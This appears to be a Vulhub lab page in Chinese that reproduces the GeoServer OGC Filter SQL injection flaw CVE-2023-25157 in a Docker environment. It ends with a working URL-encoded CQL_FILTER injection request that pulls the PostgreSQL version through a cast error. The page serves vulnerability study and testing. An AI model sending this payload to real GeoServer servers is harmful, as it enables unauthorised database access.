


GeoServer OGC Filter SQL注入漏洞 CVE-2023-25157¶
漏洞描述¶
GeoServer 是 OpenGIS Web 服务器规范的 J2EE 实现，利用 GeoServer 可以方便的发布地图数据，允许用户对特征数据进行更新、删除、插入操作。
在版本2.22.1和2.21.4及以前，多个OGC表达式中均存在SQL注入漏洞。
参考链接：
- https://github.com/murataydemir/CVE-2023-25157-and-CVE-2023-25158
- https://github.com/advisories/GHSA-7g5f-wrx8-5ccf
漏洞环境¶
Vulhub执行如下命令启动一个SeoServer 2.22.1：
docker compose up -d
环境启动后，访问http://your-ip:8080/geoserver即可查看到GeoServer的首页。

漏洞复现¶
在利用漏洞前，需要目标服务器中存在类型是PostGIS的数据空间（datastore）和工作空间（workspace）。在Vulhub中，已经包含满足条件的工作空间，其信息如下：
- Workspace name:
vulhub - Data store name:
pg - Feature type (table) name:
example - One of attribute from feature type:
name
利用这些已知参数，发送如下URL即可触发SQL注入漏洞（URL Encode）：
http://your-ip:8080/geoserver/ows?service=wfs&version=1.0.0&request=GetFeature&typeName=vulhub:example&CQL_FILTER=strStartsWith%28name%2C%27x%27%27%29+%3D+true+and+1%3D%28SELECT+CAST+%28%28SELECT+version()%29+AS+integer%29%29+--+%27%29+%3D+true

可见，已经使用SQL注入获取到了目标服务器PostgreSQL的版本。